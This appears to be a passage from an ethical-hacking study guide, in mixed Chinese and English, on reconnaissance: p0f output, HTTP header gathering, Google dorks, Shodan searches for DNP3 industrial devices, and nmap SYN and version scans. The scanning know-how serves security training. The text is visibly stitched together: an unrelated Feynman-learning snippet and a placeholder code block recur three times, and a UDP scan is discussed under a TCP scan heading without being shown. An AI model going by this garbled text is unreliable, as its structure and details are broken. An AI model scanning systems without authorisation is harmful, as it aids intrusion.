公司常用的 `split DNS` 实现将外部 DNS 与内部 DNS 分开。外部 DNS 通常只包含向外部世界提供 essential 服务的系统的完整限定域名（FQDN）。在外部 DNS 之上，往往还有一个内部 DNS，所有内部系统在此登记，以便使用 FQDN 而非 IP 地址进行访问。你的企业网络中的系统可能会向 DNS 服务器注册，这样其他人只需使用你的 FQDN 即可解析到你的 IP 地址。

被动侦察能够收集大量信息。例如，监控网络头部（从层 3 到应用层）可以发现有趣的信息。虽然手动捕获数据包并逐一分析头部会很费时，但有一个程序能够自动完成大部分工作。该程序是 `p0f`，它会监听网络流量并随通信经过的接口进行观察。遗憾的是，`p0f` 的用途已经大幅下降。原因并非 `p0f` 本身，而是大多数 Web 服务器默认加密流量，导致 `p0f` 无法查看 HTTP 头部，也就无法识别服务器及其他有价值信息。下面展示了 `p0f` 的一些输出示例。

```
.-[ 192.168.86.45/46112 -> 8.43.72.22/443 (syn) ]-

 |

 | client   = `192.168.86.45/46112`

 | os       = `Linux 3.11 and newer`

 | dist     = `0`

 | params   = `none`

 | raw_sig  = `4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id+:0`

 |

 `----

 .-[ 192.168.86.45/46112 -> 8.43.72.22/443 (mtu) ]-

 |

 | client   = `192.168.86.45/46112`

 | link     = `Ethernet or modem`

 | raw_mtu  = `1500`

 |

 `----

 .-[ 192.168.86.45/46112 -> 8.43.72.22/443 (uptime) ]-

 |

 | client   = `192.168.86.45/46112`

 | uptime   = `48 days 7 hrs 54 min (modulo 49 days)`

 | raw_freq = `1000.00 Hz`

 |

 `----

 .-[ 192.168.86.45/33498 -> 52.94.210.45/443 (syn) ]-

 |

 | client   = `192.168.86.45/33498`

 | os       = `Linux 3.11 and newer`

 | dist     = `0`

 | params   = `none`

 | raw_sig  = `4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id+:0`

 |

 `----

 .-[ 192.168.86.45/33498 -> 52.94.210.45/443 (host change) ]-

 |

 | client   = `192.168.86.45/33498`

 | reason   = `tstamp port`

 | raw_hits = `0,1,1,1`

 |

 `----
```


Very little of what you see here is anything you wouldn't be able to determine yourself if you knew how to read packet headers. The packet capture and analysis program Wireshark could provide much of this information. Some of the interesting bits, though, include identifying system uptime. This is the uptime on systems on my local network, so it's less interesting, perhaps, than it would be if we could so easily identify uptime on remote systems. You can also see that `p0f` is able to identify the operating system type on some systems. It happens to be the system that `p0f` is running on, but it makes the determination based on the network headers since operating systems have different “signatures” that are based on how the IP identification number is generated, how the TCP sequence number is generated, how ephemeral port numbers are selected, and other pieces of information `p0f` can collect.

One tool you can use to quickly look up information from your web browser is Recon. This is a plugin for web browsers like Firefox and Chrome. When you activate it, a window that looks like what you see in Figure 4.14 opens. You can see the different flyout menus that allow you to do additional searching quickly. While this isn't strictly passive reconnaissance, it does give you quick access to tools like `whois` lookups, Google dorks, and other important searches. You can do this all without directly opening another tab or window.



**FIGURE 4.14** Recon with Recon

You may not be using Firefox, though what you'll probably find is that the browser that has the majority of plugins that are useful for security testing is Firefox. I used to joke that Firefox was the browser that was insecure enough to allow plugins access to do all sorts of bad things. This isn't true, of course. Plugins have been around for Firefox much longer than for other browsers, so the development community has been around for a while. Other browsers, like Chrome, can be much more restrictive in what they will allow developers to do, though, which also makes Firefox more attractive. This continues to change, so it's always worth checking to see whether the browser you like to use has plugins or extensions available to do security testing with.

One plugin or extension available in Chrome is Recon. This provides a context menu when you right‐click a link in a page. The Recon menu gives you quick access to look up information about the link or word you have selected. You can do Google or Bing searches, for example, and Recon will open a new tab or window with the results of a search on what you have selected. You can also get translations of words, do package tracking, search video sites, and perform a number of other quick searches where your selection is passed into the site you have selected from the menu.

These sorts of tools can be invaluable to quickly search for answers, though they aren't passive reconnaissance in the same sense that watching network traffic is. However, this is not at all to say that the information you can get from these tools isn't valuable. Any tool that can save you time and maybe even expose you to a new technique you could add to your arsenal is very valuable. Even with all of this, there is still information we can look at that we haven't seen as yet.

## Website Intelligence

It would be difficult to find a company that had no web presence at all. It's possible, of course, though it's unlikely. Even small companies probably have a page on Facebook to show the hours they are open. Companies that may be most prone to need the services of an ethical hacker to perform testing will likely have a website. It may even have programmatic elements. Any site that has programmatic elements has the potential to be compromised. Web applications are a common point of attack for adversaries. This is all to say that gathering intelligence about a website can end up bearing fruit.

Starting from the bottom of the stack, we can look at what the web server is as well as the operating system. One way to get some of this information is just to connect to the web server and issue a request to it. In the following code, you can see the HTTP headers returned from a request to a website. While we don't get the actual web server name, we do get some interesting information.

**Gathering Website Intelligence**

```
HTTP/1.1 403 Forbidden
Date: Sun, 13 Nov 2022 21:13:14 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 16
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
Referrer-Policy: same-origin
Cache-Control: private, max-age=0, no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Expires: Thu, 01 Jan 1970 00:00:01 GMT
Set-Cookie: __cf_bm=bin1OduiDKdF6vN27ahHYxNqnw.NxagOfEHsoiMbMbM-1668373994-0-AWOI+udp/7xI5x/rmYxarZylVVD9gEnwVo7GJfbuURQ/2GlXn4aRrQmCl3wSBQk/NwWVvGaI77d3q8Hm9s2nhl4=; path=/; expires=Sun, 13-Nov-22 21:43:14 GMT; domain=.www.wiley.com; HttpOnly; Secure
Strict-Transport-Security: max-age=2592000; includeSubDomains
X-Content-Type-Options: nosniff
Server: cloudflare
CF-RAY: 769a8286dd543b9a-BOS
```

There is actually an easier way to do this. The website `netcraft.com` will give hosting history for websites. This will provide the owner of the netblock that contains the IP address. It will also tell you the operating system the web server runs on. In some cases, you will get details about the web server version and other modules that have been enabled. One of the domains I have has been around for a long time, and Figure 4.15 shows the hosting history for that domain. In 2001, the site was hosted on an OpenBSD system (Netcraft says NetBSD/OpenBSD, but since I was hosting it myself, I know it was OpenBSD). You can also see that it was running on Apache at that time. This is an older hosting history from Netcraft. The current report only shows a single hosting provider in the history listing, but the output also shows a lot of other details, including whether the site is vulnerable to attacks like POODLE or Heartbleed.



**FIGURE 4.15** Netcraft hosting history

While the history is interesting, it's far more relevant to know what the technology for the website is now. The top line is the most recent. Currently, the site is hosted on IIS with the network block being owned by Microsoft. That suggests that Microsoft is hosting this site, and since it's IIS, the operating system would be Windows Server. What we don't know is what version of Windows Server. The reason this information is useful is that we may be able to get a leg up on vulnerabilities. If we have some hints about versions, we would have a much better idea what vulnerabilities exist on the system where the website is hosted.

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。
1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


一个查找有用的 Google dork 示例的好地方是 Google Hacking Database (`https://www.exploit-db.com/google-hacking-database/`)。Google Hacking Database（GHDB）存储的搜索词分类包括 footholds、易受影响的文件、错误消息和敏感目录。创建这些有用的搜索字符串需要你不仅了解 Google hacking 关键词，还要了解你所寻找的内容。一些示例在 Figure 4.19 中，搜索字符串用于查找网络或漏洞数据。这意味着有人必须知道页面或 URL 中会包含这些数据。Figure 4.19 展示了一些这些内容。



**FIGURE 4.19** Google Hacking Database

在 GHDB 上花费时间可以为你在目标内查找可能的问题提供大量弹药。其中一些是盲的，如果你对目标内会有什么并没有概念。为了确保你只在目标内搜索，当然需要在搜索参数中加入 `site:` 和域名。你可能已经注意到在 Figure 4.19 中的 Microsoft 搜索：当只使用域名时，所有可能的子域名都会返回。如果你想只在单个 FQDN（如 `www.microsoft.com`）上搜索，你需要提供 FQDN。仅使用域名也是另一种方式，可以捕获通过 DNS 查找可能未能获得的额外 FQDN。

### Internet of Things (IoT)

你可能已经听说过 IoT。IoT 由那些输入或输出能力很少甚至没有的设备组成，至少从传统角度来看。如果设备可以运行通用应用，并且配有键盘和屏幕（如电脑、平板或智能手机），则它不属于 IoT。许多其他设备，如网络连接的恒温器、灯泡、风扇、冰箱以及其他本质上单一用途的设备，都是 IoT 设备。许多公司在不同的自动化场景中利用这些设备。

这些设备在渗透系统时可能很有用。像 Satori 这样的恶意软件可以感染多个 IoT 设备，一旦感染，这些设备可以被用来攻击其他系统。它们也可能成为进入企业网络的良好起点，具体取决于设备。这也是搜索引擎的帮助所在。Shodan (`www.shodan.io`) 是专门针对 IoT 设备的搜索引擎。Shodan 跟踪大量设备，并记录供应商、设备类型和功能。

Shodan 还需要你了解目标以及可以用来识别这些设备的内容。Figure 4.20 展示了一个示例。搜索词是 `port:20000 source address`，它用于识别分布式网络协议（DNP）3 设备。这也是 Shodan 能够提供帮助的另一个领域。DNP3 设备的搜索是通过点击工业控制系统（ICS）链接并查看 Shodan 所识别的不同协议而得出的。Shodan 还将工业控制系统关联到工厂接口网络服务（FINS）、高速可寻址远程传感器协议（HART）以及许多其他协议。此外，还可以针对不同供应商进行搜索。



**FIGURE 4.20** Shodan search for DNP3

在搜索结果左侧（图中未显示）是一张按国家统计设备数量的地图。Figure 4.21 展示了该地图以及按国家统计的设备数量。统计中你可能会注意到，美国在所有国家中位居第一，拥有最多此类设备。Shodan 还会识别设备所在的组织。点击单个结果可以查看更多信息，包括设备的位置。

当谈论识别被视为 IoT 设备的设备时，Shodan 是一个极佳的资源。通过 Shodan 数据库的搜索，你可以发现目标网络中可能存在的设备。



**FIGURE 4.21** Shodan results

## Summary

侦察（footprinting）和侦察是伦理黑客整体方法中重要的活动。这是收集大量数据的阶段，后续将用于进一步工作。同时，这是一个尽量不制造噪音的阶段。你在悄悄接近目标，若制造噪音，目标就不会产生惊讶反应。这里同样适用：你希望在开始之前完成工作，这样在正式开始时不会产生过多活动而被检测到，随后被锁定。

如果你想了解真实攻击者使用的技术、战术和程序，可以参考 MITRE ATT&CK 框架，获取攻击者可能的操作思路。这将帮助你为所服务的组织提供完整的测试集。

有多种免费且公开可得的情报来源。诸如 SEC 的 EDGAR 数据库等，可以获取公司信息。招聘网站也能提供公司信息，对后续使用很有帮助，包括它们可能使用的技术，因为招聘时通常会列出技术供应商，如 Microsoft、Red Hat、Cisco 和 Palo Alto Networks。你也可以阅读员工评论，这些评论可能包含有价值的数据。

社交网络站点可用于收集关于个人和公司的信息。个人有时会在上面发布工作或公司相关信息。社交工程是常见的攻击技术，如果你知道如何定位目标个人，这种技术会更成功。你也可以收集公司本身的信息。公司往往拥有社交网络存在感。此外，像 LinkedIn 这类专注于业务和业务交互的站点也很有用。

互联网需要数据才能运行，这包括已分配的 IP 地址。这些分配通过 RIR（地区互联网注册机构）进行。你可以使用 `whois` 工具从 RIR 获取部分数据。`whois` 程序还可以用于获取域名的注册详情，包括地址、电话号码和联系方式。并非所有域名都会提供这些信息，因为注册商有时会隐藏注册人信息。你得到的将是注册商的联系信息和地址，而不是组织本身。此外，你还能从中获取域名的授权名称服务器（NS），这些是被视为域名权威的 NS。

DNS 包含大量关于公司的细节，如果你能够找到它。快速获取所有主机的方法是执行区域传输（zone transfer），但这通常不被允许。因此，你可能需要尝试类似 brute‑forcing DNS 请求的方法来猜测可能的 FQDN。通过此方法，你可以得到潜在的目标 FQDN，也会得到对应的 IP 地址。这些 IP 地址可以通过 `whois` 来查询所属网络段和拥有者。你可能会得到公司所属的 IP 地址段范围。

# 扫描网络

扫描网络是侦察的基础步骤。它涉及发现网络中活动的主机、服务和开放端口。

## 技术

- **被动扫描**：在不与目标交互的情况下收集信息，例如使用 `Wireshark` 捕获流量。
- **主动扫描**：向目标发送探测探，例如使用 `nmap` 进行 SYN 扫描：`nmap -sS 192.168.1.0/24`。

## 工具

- `nmap`: 业界标准的网络映射工具，用于主机发现和端口扫描。
- `masscan`: 高速扫描器，能在几分钟内扫描整个互联网。
- `netdiscover`: 适用于快速识别本地 LAN 中的设备。

## 示例

```
nmap -sV -p 22,80,443 10.0.0.0/16
```

此命令在 10.0.0.0/16 范围内扫描 22、80 和 443 端口，并尝试版本检测（`-sV`）。

## 总结

扫描提供规划进一步利用步骤所需的基础数据，例如识别易受攻击的服务或映射网络拓扑结构。

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 **Richard Feynman**。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

- 使用 MegaPing 是一种可以执行 ping 探测以及其他多种功能的工具。MegaPing 是一个基于 GUI 的工具，运行在 Windows 上，它将多种功能整合到一个界面中。ping 探测可以通过左侧列表中的 IP Scanner 工具实现。Figure 5.1 显示执行 IP 扫描后的完整界面。默认情况下，列表不包含 MAC 地址和主机名。右侧的复选框可以在执行扫描后勾选，信息会被加入。

- 在左侧，你会看到其他多种工具，它们可以用于网络故障排查。除了排查网络问题外，还有一个端口扫描工具。下一节会更详细介绍端口扫描。在识别目标网络中的系统和服务时，你可能会发现其他枚举工具有用。



**FIGURE 5.1** MegaPing IP Scanner

- ping 探测虽然后续是第一步，但它仅提供有限的信息。它可以让你大致了解需要测试的主机数量，但仅凭主机是否存活（以及主机是否不存活的信息可能不可靠）并不能告诉你太多。最终，你想知道的是主机上运行的服务。ping 探测只能提供哪些系统可能是可目标的线索。根据你的测试方式和位置，这可能很有价值。你也可以直接进行端口扫描，因为端口扫描仪通常会先进行 ping 检测，确保目标系统已上线后再发送端口探测。

## 端口扫描

让我们先澄清一下，以免产生混淆。我们谈论的不是经过邮轮、窥探窗户的行为。我们谈论的是网络通信设备。端口是操作系统网络栈内的构造。当一个应用程序具有网络服务功能时，它会绑定到一个端口，即保留该端口并将应用程序注册以接收通过该端口到达的消息。系统收到的、目标端口为某一端口的通信会转发给注册到该端口的应用程序。当有应用程序在监听某个端口时，该端口被视为打开。请记住，端口位于传输层，应用程序决定使用 UDP 还是 TCP 作为监听协议。之所以提及这一点，是因为端口扫描的目标是识别绑定在已识别为打开端口上的软件。

TCP 使用三次握手来建立连接。为了完成握手，TCP 使用 SYN 和 ACK 标志位，这意味着有一组位被启用或禁用以设置或清除标志。三次握手使用 SYN 和 ACK 标志完成连接过程。其他标志，如 URG、PSH 和 FIN，用于其他目的，而 RST 标志用于让接收方的系统知道在收到消息后停止在目标端口上的通信。端口扫描仪利用已知的协议规则来判断端口是否打开。

打开端口应对 SYN 报文做出 SYN/ACK 响应，关闭端口应对 SYN 报文做出 RST 响应。如果我们向打开或关闭的端口发送其他报文，会发生什么呢？为什么我们要这么做，既然我们知道打开和关闭端口的响应？原因与防火墙和入侵检测系统等安全技术有关。其他 TCP 报文被用来绕过这些设备并获取原本可能没有的响应。协议的预期工作方式已有文档记录，网络栈实现遵循该文档。有一些交换并未被文档记录，因此其行为不受保证，因为它们不是预期的。这些交换可以用于从目标系统获取响应。UDP 则是另一回事。从协议角度看，UDP 没有定义如何发起对话。UDP 消息由客户端发送到服务器，服务器如何响应则由服务器决定。操作系统的网络栈在处理传输层头部后，仅负责将消息传递给应用程序，这对端口扫描仪来说是一个挑战。由于没有定义的响应，缺乏响应很难判断是端口关闭还是应用程序未收到预期的消息，也有可能是服务器监听在该端口的应用程序根本不响应。

由于没有定义的响应，端口扫描仪只能作出最佳猜测。如果探测报文没有收到响应，端口扫描仪不会直接认为端口是关闭的，因为它可能根本没有收到响应。除了应用程序未响应外，UDP 消息在传输过程中可能丢失，因为协议本身不保证端到端传输。因此，探测报文会被重新发送，并在每次发送之间加入一段短的延迟。多次发送带延迟的报文会使 UDP 端口扫描比 TCP 扫描耗时更长。

如前所述，端口扫描仪在进行端口扫描前可能会先发送 ICMP 回显请求。没有大量向不存在的主机发送数千条消息的意义。此行为可以根据所使用的端口扫描工具进行控制。

### nmap

de facto（事实上）端口扫描器是 `nmap`，即网络映射器的缩写。它甚至被《黑客帝国 Reloaded》中的 Carrie‑Anne Moss 和《八角笼中》中的 Rihanna 认为足够好，所以我认为或你也应该认为它足够好。这是一款自 1997 年以来存在的程序，已成为如此广为人知的工具，以致其他端口扫描器会实现相同的命令行参数，因为这些参数非常熟悉。`nmap` 不仅是端口扫描器，它的主要功能以及其他功能都是核心目的的扩展。

`nmap` 可以执行 UDP 扫描以及多种 TCP 扫描方式用于端口扫描。此外，`nmap` 还能够探测操作系统类型、应用程序以及应用程序版本。也许更重要的，`nmap` 支持运行脚本。这些脚本让任何人都可以扩展 `nmap` 的功能。由 Lua 编程语言驱动的脚本引擎拥有模块，脚本可以在此基础上构建，使得对系统的探测工作更加容易。

### TCP 扫描

```
nmap -sS -p 22,80,443 192.168.1.0/24
```

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 **Richard Feynman**。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

Figure 5.2 将在 Wireshark（数据包捕获程序）中捕获到的这些请求捕获后展示给您。列表顶部的数据包是运行 `nmap` 的系统发出的探测请求。如果查看底部窗格中的数据包解码，您会看到该数据包中没有数据。UDP 头是预期的 8 字节，然后没有负载。列表底部显示的是目标主机的 ICMP “port unreachable” 消息。

您可以比较执行不同扫描所需的时间。SYN 扫描花费了稍微超过三秒的时间，而 UDP 扫描仅超过五秒。您还会注意到 UDP 也扫描了 1,000 个端口。我们仍然有一个问题，不知道这些端口背后到底运行什么应用程序。这也是 `nmap` 可以为我们处理的。



**FIGURE 5.2** UDP scan from Wireshark

### 详细信息

我们可以使用 `nmap` 来解决不知道应用程序的问题。我们可以使用版本扫描。运行版本扫描（`-sV`）时，`nmap` 会连接到端口，必要时发送正确的协议命令以获取应用程序横幅。横幅是协议特定的，可能包含软件名称和版本等信息。下面的代码片段中，您可以看到不仅有协议（如前所述），还有使用的软件以及版本号。例如，端口 22 运行的是 OpenSSH 7.4。括号中的 2.0 表示协议版本 2.0。这是服务在横幅中指示的信息。

**Nmap 版本扫描**

```
$ nmap -sV 192.168.86.32

 Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 17:46 EST

 Nmap scan report for billthecat.lan (192.168.86.32)

 Host is up (0.0083s latency).

 Not shown: 995 closed ports

 PORT     STATE SERVICE       VERSION

 22/tcp   open  ssh           OpenSSH 7.4 (protocol 2.0)

 88/tcp   open  kerberos-sec  Heimdal Kerberos (server time: 2018-07-15 02:51:39Z)

 445/tcp  open  microsoft-ds?

 548/tcp  open  afp           Apple AFP (name: billthecat; protocol 3.4; OS X 10.9 - 10.11; Macmini7,1)

 5900/tcp open  vnc           Apple remote desktop vnc

 MAC Address: AC:87:A3:36:D6:AA (Apple)

 Service Info: OSs: OS X, Mac OS X; CPE: cpe:/o:apple:mac_os_x:10.9, cpe:/o:apple:mac_os_x

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

 Nmap done: 1 IP address (1 host up) scanned in 35.23 seconds
```


